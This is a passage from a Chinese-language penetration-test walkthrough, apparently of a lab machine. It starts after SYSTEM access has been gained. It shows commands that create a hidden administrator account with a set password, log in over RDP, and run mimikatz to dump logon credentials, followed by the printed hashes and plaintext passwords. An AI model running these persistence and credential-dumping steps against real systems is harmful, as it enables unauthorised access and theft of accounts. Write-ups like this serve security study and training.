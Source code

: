 直接是system权限，加个管理员组用户，进行rdp

```bash
net user Ki1ro 1qaz!QAZ /add
net localgroup Administrators Ki1ro /add
```

![image-20231018093829558](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018093829558.png)

成功rdp

![image-20231018093916440](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018093916440.png)

看了一下，该机子也不在域内

```bash
net config workstatin
```



![image-20231018094102017](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018094102017.png)

传一个猕猴桃上去

```bash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
```

抓到了本地的Administrator的密码，但因为不在域内，似乎没什么用

```
Authentication Id : 0 ; 464920 (00000000:00071818)
Session           : RemoteInteractive from 2
User Name         : Ki1ro
Domain            : WIN-K6ADOBJJ665
Logon Server      : WIN-K6ADOBJJ665
Logon Time        : 11/11/2016 2:38:30 AM
SID               : S-1-5-21-2979980292-2155110411-2669820740-1000
	msv :	
	 [00000003] Primary
	 * Username : Ki1ro
	 * Domain   : WIN-K6ADOBJJ665
	 * LM       : 869f545b7f4e423a1d91a081d4b37861
	 * NTLM     : bc007082d32777855e253fd4defe70ee
	 * SHA1     : c44e77aa5d3caed6ca7e9e59f553fe64ce4000d2
	tspkg :	
	 * Username : Ki1ro
	 * Domain   : WIN-K6ADOBJJ665
	 * Password : 1qaz!QAZ
	wdigest :	
	 * Username : Ki1ro
	 * Domain   : WIN-K6ADOBJJ665
	 * Password : 1qaz!QAZ
	kerberos :	
	 * Username : Ki1ro
	 * Domain   : WIN-K6ADOBJJ665
	 * Password : 1qaz!QAZ
	ssp :	
	credman :	

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WIN-K6ADOBJJ665$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 10/18/2023 12:44:19 AM
SID               : S-1-5-20
	msv :	
```